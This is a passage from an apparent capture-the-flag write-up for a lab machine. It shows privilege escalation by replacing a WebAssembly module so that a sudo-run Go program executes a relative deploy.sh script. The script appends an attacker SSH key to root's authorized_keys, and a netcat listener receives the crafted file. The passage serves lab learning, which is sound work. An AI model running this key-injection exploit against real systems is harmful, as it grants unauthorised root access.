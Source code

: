```console
global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

- **[!]** create a main.wasm with info function returns 1 => trigger deploy.sh with exploit code

```console
└─╼$ cat main.wat
(module
  (memory (export "memory") 16)
  (global (export "g_a") (mut i32) (i32.const 1048576))
  (global (export "data_end") i32 (i32.const 1048576))
  (global (export "heap_base") i32 (i32.const 1048576))
  (table (export "T_a") 1 1 funcref)
  (func (export "info") (result i32)
    (i32.const 1)
  )
)

└─╼$ wat2wasm main.wat -o main.wasm

└─╼$ ls
main.wasm  main.wat

└─╼$ wasm-decompile main.wasm
export memory memory(initial: 16, max: 0);

export global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

export table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 1
}
```

- **exploit** on remote machine

```console
admin@ophiuchi:/dev/shm$ cat deploy.sh
#!/bin/bash

mkdir -p /root/.ssh
echo 'ssh-ed25519 AAAA...8O0G qwe@kali' >> /root/.ssh/authorized_keys
echo '[+] successfully insert pub key into root's authorized_keys'

admin@ophiuchi:/dev/shm$ nc -lvnp 9999 > main.wasm
Listening on 0.0.0.0 9999
Connection received on 10.10.14.14 59558
^C
admin@ophiuchi:/dev/shm$ file main.wasm
main.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
[+] successfully insert pub key into root's authorized_keys
```
